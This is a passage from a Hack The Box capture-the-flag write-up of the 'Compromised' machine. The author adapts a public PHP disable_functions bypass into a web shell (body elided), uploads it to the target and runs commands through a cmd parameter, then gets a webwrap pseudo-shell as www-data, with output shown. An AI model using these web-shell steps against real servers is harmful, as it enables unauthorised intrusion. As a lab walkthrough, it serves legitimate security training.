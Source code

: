 Scrolling through the phpinfo output, we can see a lot of information about the host `compromised` as well as the php version `7.2.24-0ubuntu0.18.04.6` and the fact that there are a lot of disabled functions that will make it hard for us to get command execution on the server. After a lot of searching on the internet, I found this [exploit](https://raw.githubusercontent.com/mm0r1/exploits/master/php7-gc-bypass/exploit.php) on github, that uses old php bugs to bypass the `disable_functions` config. 

```PHP
<?php
# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn($_GET["cmd"]);

function pwn($cmd) {
    global $abc, $helper;
    ...
...
```

>I added a simple `$_GET["cmd"]` to get a pseudo-shell ad `www-data`

I created the php bypass file `freeze.php` and uploaded it using the CVE and tried visiting `http://10.10.10.207/shop/vqmod/xml/freeze.php?cmd=id` and ...

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/Boxes/htb-compromised/images/htb-compromised-php-bypass.PNG "Tadaa!!")

We have our first user, and the journey is just getting started. 

## Bonus Pseudo-Shell using [Webwrap](https://github.com/mxrch/webwrap)

Just visit the repo and install webwrap, use the syntax `webwrap http://10.10.10.207/shop/vqmod/xml/freeze.php?cmd=WRAP` and you should get a Pseuto-shell as www-data

```sh
kali@kali:~/Documents/HackTheBox/compromised$ webwrap http://10.10.10.207/shop/vqmod/xml/freeze.php?cmd=WRAP

www-data@compromised:/var/www/html/shop/vqmod/xml$ uname -a && id
Linux compromised 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
